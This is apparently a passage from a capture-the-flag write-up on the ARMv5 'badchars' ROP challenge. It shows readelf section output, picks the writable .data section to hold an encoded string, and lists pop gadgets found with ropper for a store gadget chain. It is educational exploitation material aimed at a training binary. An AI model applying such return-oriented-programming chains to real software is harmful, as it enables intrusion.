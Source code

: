 

```
readelf -S badchars_armv5
There are 29 section headers, starting at offset 0x1bb4:

Заголовки разделов:
  [Нм] Имя           	Тип         	Адрес	Смещ   Разм   ES Флг Сс Инф Al
  [ 0]               	NULL        	00000000 000000 000000 00  	0   0  0
  [ 1] .interp       	PROGBITS    	00010154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag 	NOTE        	00010168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.bu[...] NOTE        	00010188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash     	GNU_HASH    	000101ac 0001ac 000060 04   A  5   0  4
  [ 5] .dynsym       	DYNSYM      	0001020c 00020c 000110 10   A  6   1  4
  [ 6] .dynstr       	STRTAB      	0001031c 00031c 0000e0 00   A  0   0  1
  [ 7] .gnu.version  	VERSYM      	000103fc 0003fc 000022 02   A  5   0  2
  [ 8] .gnu.version_r	VERNEED     	00010420 000420 000020 00   A  6   1  4
  [ 9] .rel.dyn      	REL         	00010440 000440 000008 08   A  5   0  4
  [10] .rel.plt      	REL         	00010448 000448 000028 08  AI  5  21  4
  [11] .init         	PROGBITS    	00010470 000470 00000c 00  AX  0   0  4
  [12] .plt          	PROGBITS    	0001047c 00047c 000050 04  AX  0   0  4
  [13] .text         	PROGBITS    	000104cc 0004cc 0001c0 00  AX  0   0  4
  [14] .fini         	PROGBITS    	0001068c 00068c 000008 00  AX  0   0  4
  [15] .rodata       	PROGBITS    	00010694 000694 000010 00   A  0   0  4
  [16] .ARM.exidx    	ARM_EXIDX   	000106a4 0006a4 000008 00  AL 13   0  4
  [17] .eh_frame     	PROGBITS    	000106ac 0006ac 000004 00   A  0   0  4
  [18] .init_array   	INIT_ARRAY  	00020f00 000f00 000004 04  WA  0   0  4
  [19] .fini_array   	FINI_ARRAY  	00020f04 000f04 000004 04  WA  0   0  4
  [20] .dynamic      	DYNAMIC     	00020f08 000f08 0000f8 08  WA  6   0  4
  [21] .got          	PROGBITS    	00021000 001000 000024 04  WA  0   0  4
  [22] .data         	PROGBITS    	00021024 001024 000008 00  WA  0   0  4
  [23] .bss          	NOBITS      	0002102c 00102c 000004 00  WA  0   0  1
  [24] .comment      	PROGBITS    	00000000 00102c 000030 01  MS  0   0  1
  [25] .ARM.attributes   ARM_ATTRIBUTES  00000000 00105c 000028 00  	0   0  1
  [26] .symtab       	SYMTAB      	00000000 001084 0006d0 10 	27  84  4
  [27] .strtab       	STRTAB      	00000000 001754 000358 00  	0   0  1
  [28] .shstrtab     	STRTAB      	00000000 001aac 000105 00  	0   0  1
```



The data section at [22] has exactly the 8 bytes we need!



What needs to be done now is to get the address of the data section into **R4** and the encoded string into **R3** for the **STORE GAGDET**



Let's use ropper to see if we can find gadgets to POP into these registers.



```
ropper --file=badchars_armv5 --search "pop"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop


[INFO] File: badchars_armv5
0x000105d0: pop {fp, pc};
0x000105fc: pop {r0, pc};
0x00010478: pop {r3, pc};
0x000105b0: pop {r4, pc};
0x0001067c: pop {r4, r5, r6, r7, r8, sb, sl, pc};
```